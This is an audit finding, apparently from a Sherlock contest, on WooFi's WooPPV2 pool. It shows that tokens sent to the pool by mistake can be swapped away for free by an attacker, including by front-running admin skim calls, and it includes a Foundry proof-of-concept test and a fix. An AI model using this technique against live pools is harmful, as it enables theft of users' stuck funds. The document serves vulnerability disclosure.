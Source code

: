 Immense Hickory Tadpole

medium

# Attacker can steal stuck tokens via swap

## Summary
If a user accidentally sends the quote token or one of the base tokens directly to the pool it can be used by an attacker to swap for free. 

## Vulnerability Detail
The internal functions (`_sellQuote`,` _sellBase`, `_swapBaseToBase`) called by `WooPPV2::swap` have a require statement to ensure that the token being swapped has been transferred to the pool before performing the swap.

If one of the base or quote tokens get accidentally sent directly to the pool, the expectation is that an admin would be able to return these to a user using `WooPPV2::skim`. However, a malicious user could use these to swap for free, subverting the need for them to supply their own `fromToken`. The malicious user could simply create a bot that watches for calls to `skim` and front-runs them to remove the tokens that are attempting to be recovered. 

## Impact
Malicious user can steal stuck funds. 

Protocols integrating with the `WooPPV2` pool directly may also be susceptible to this attack if they perform swaps in multiple transactions as the attacker could front-run transactions where a transfer is made directly to the pool to use the funds that have been sent.

## Code Snippet
[`_sellQuote`] (https://github.com/sherlock-audit/2024-03-woofi-swap/blob/main/WooPoolV2/contracts/WooPPV2.sol#L478)

```solidity
        require(balance(quoteToken) - tokenInfos[quoteToken].reserve >= quoteAmount, "WooPPV2: !QUOTE");
```

[`_sellBase`](https://github.com/sherlock-audit/2024-03-woofi-swap/blob/main/WooPoolV2/contracts/WooPPV2.sol#L431)

```solidity
        require(balance(baseToken) - tokenInfos[baseToken].reserve >= baseAmount, "WooPPV2: !BASE");
```

[`_sellBaseToBase`](https://github.com/sherlock-audit/2024-03-woofi-swap/blob/main/WooPoolV2/contracts/WooPPV2.sol#L525)

```solidity
        require(balance(baseToken1) - tokenInfos[baseToken1].reserve >= base1Amount, "WooPPV2: !BASE1_BALANCE");
```

## POC
```solidity
function test_swappingWithStuckTokens() public {
        uint256 mintAmount = 10e8;
        address victim = address(0x4567);

        // setup: victim needs tokens to send to pool
        baseToken2.mint(victim, mintAmount);

        // 1. send tokens to pool
        vm.prank(victim);
        IERC20(baseToken2).transfer(address(pool), mintAmount);

        uint256 balanceBefore = IERC20(quoteToken).balanceOf(address(this));
        // 2. attacker swaps with other user's tokens
        pool.swap(address(baseToken2), address(quoteToken), mintAmount, 0, address(this), address(this));
        uint256 balanceAfter = IERC20(quoteToken).balanceOf(address(this));

        // assert that attacker's balance of baseToken2 increased after the swap
        t(balanceAfter > balanceBefore, "quote token balance doesn't increase after swap");
    }
```

## Tool used
Manual Review
Foundry

## Recommendation
Create a whitelisting mechanism for the `WooPPV2::swap` that only allows it to be called directly by integrating protocols that have a non-vulnerable implementation of the swap function. 
